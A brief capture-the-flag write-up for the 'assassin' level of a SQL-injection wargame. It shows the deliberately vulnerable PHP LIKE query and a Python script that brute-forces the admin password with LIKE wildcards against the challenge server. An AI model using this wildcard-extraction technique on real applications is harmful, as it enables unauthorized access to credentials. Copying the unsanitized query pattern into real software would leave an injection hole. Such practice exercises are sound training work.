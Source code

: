 
#  ASSASSIN
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```
Using %__ to check the password matching to n th character in this case searching for 3 character.


```
import requests
import string
char = string.digits + string.ascii_letters
session = {"PHPSESSID": "543hSou81c4g7dfv96aojdiaa"}
for i in char:
    param = {'pw':f'%__{i}'}
    req = requests.get("https://los.rubiya.kr/chall/assassin_14a11d552c61c601034879e5d4171373.php", params=param, cookies=session)
    if "Hello admin" in req.text:
        print("found", i)
        break
```
***
### query : select id from prob_assassin where pw like '__2%'
***
